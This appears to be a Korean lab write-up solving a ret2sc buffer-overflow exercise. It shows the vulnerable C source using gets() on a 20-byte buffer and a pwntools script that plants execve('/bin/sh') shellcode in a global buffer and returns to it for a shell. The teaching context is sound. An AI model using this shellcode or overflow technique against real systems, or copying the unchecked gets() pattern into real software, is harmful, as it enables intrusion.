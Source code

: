 lab3
====
`ret2sc.c`에서 다음과 같은 코드를 볼 수 있었다.
```
#include <stdio.h>

char name[50];

int main(){
	setvbuf(stdout,0,2,0);
	printf("Name:");
	read(0,name,50);
	char buf[20];
	printf("Try your best:");
	gets(buf);
	return ;
}
```
먼저 `Name`을 입력 받은 후 `buf`값을 입력받는데 `Name`을 입력 받을 때에는 길이 검사를 하며 `buf`를 입력받을 때에는 길이검사가 없다.   
따라서 `buf`를 입력받을 때 bof를 시켜 `Name`주소로 ret시키고 `Name`에는 쉘코드를 넣어주면 해결 할 수 있을 것이다.

알아낸 `Name`의 주소는 `0x804a060`이였으며, 다음과 같이 코드를 작성하였다.
```
from pwn import*

p = process('./ret2sc')

name = 0x804a060

pl1 = ''
pl1 += '\x90'*10
pl1 += '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69'
pl1 += '\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80'

pl2 = ''
pl2 += 'a'*32
pl2 += p32(name)

p.recvuntil(":")
p.send(pl1)
p.recvuntil(':')
p.send(pl2)

p.interactive()
```

코드 실행 결과.

![](https://postfiles.pstatic.net/MjAxOTA4MDJfMjU1/MDAxNTY0NzMyODEyMDU5.rR_beKFFZDCcs3ZtbJKSpinGAm-5MOtGaDMdLP_goHkg.dqOs30R6BxI3My2RL07mlbCF7j-0d78n_9f9OOSKoj0g.PNG.rlaeoghks823/%EC%8A%A4%ED%81%AC%EB%A6%B0%EC%83%B7,_2019-07-30_00-15-30.png?type=w773) 
